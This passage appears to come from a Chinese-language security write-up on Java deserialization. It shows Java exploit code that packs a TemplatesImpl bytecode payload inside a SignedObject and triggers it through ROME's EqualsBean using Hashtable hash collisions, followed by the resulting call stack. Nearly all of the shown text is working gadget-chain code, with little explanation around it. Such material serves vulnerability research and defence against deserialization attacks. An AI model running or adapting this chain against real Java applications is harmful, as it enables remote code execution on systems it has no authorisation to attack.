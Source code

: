 ```bash

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{payloads});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Hashtable table1 = getPayload(Templates.class, obj);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(table1, kp.getPrivate(), Signature.getInstance("DSA"));

        Hashtable table2 = getPayload(SignedObject.class, signedObject);

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(table2);
        oos.close();
        //System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));

        //反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    public static Hashtable getPayload (Class clazz, Object payloadObj) throws Exception{
        EqualsBean bean = new EqualsBean(String.class, "r");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", payloadObj);
        map2.put("zZ", bean);
        map2.put("yy", payloadObj);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");
        setFieldValue(bean, "_beanClass", clazz);
        setFieldValue(bean, "_obj", payloadObj);
        return table;
    }
}
```

调用栈

```bash
getObject:177, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
beanEquals:146, EqualsBean (com.sun.syndication.feed.impl)
equals:103, EqualsBean (com.sun.syndication.feed.impl)
equals:495, AbstractMap (java.util)
reconstitutionPut:1241, Hashtable (java.util)
readObject:1215, Hashtable (java.util)
```
